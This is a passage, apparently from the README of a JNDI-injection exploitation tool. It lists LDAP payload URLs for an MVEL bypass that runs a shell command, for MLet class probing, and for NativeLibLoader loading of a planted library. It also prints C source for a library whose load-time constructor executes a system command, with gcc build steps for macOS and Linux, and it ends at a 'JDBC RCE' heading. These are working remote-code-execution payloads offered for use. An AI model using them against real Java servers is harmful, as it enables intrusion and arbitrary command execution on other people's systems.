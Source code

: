 ```bash
# MVEL Bypass
ldap://127.0.0.1:1389/MVEL/Command/open -a Calculator
```

### MLet

Use loadClass and addURL methods in `javax.management.loading.MLet` to detect classes in the classpath

If the class `com.example.TestClass` exists, the HTTP server will receive a `/com/example/TestClass_exists.class` request

```bash
# MLet
ldap://127.0.0.1:1389/MLet/com.example.TestClass
```

### NativeLibLoader

Use `com.sun.glass.utils.NativeLibLoader.loadLibrary` method to load the local library on the target server

You need to write a dll/so/dylib to the target machine in advance by other methods (e.g. file upload)

Please note that the path passed in is an absolute path and cannot contain the file extension

For example: if `/tmp/evil.so` exists on the server, the path is `/tmp/evil`

```bash
# NativeLibLoader
ldap://127.0.0.1:1389/NativeLibLoader/<base64-url-encoded-path-to-native-library>
```

source code of the native library, written in C

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

__attribute__ ((__constructor__)) void preload (void){
    system("open -a Calculator");
}
```

compile

```bash
# macOS
gcc -shared -fPIC exp.c -o exp.dylib

# Linux
gcc -shared -fPIC exp.c -o exp.so
```

## JDBC RCE
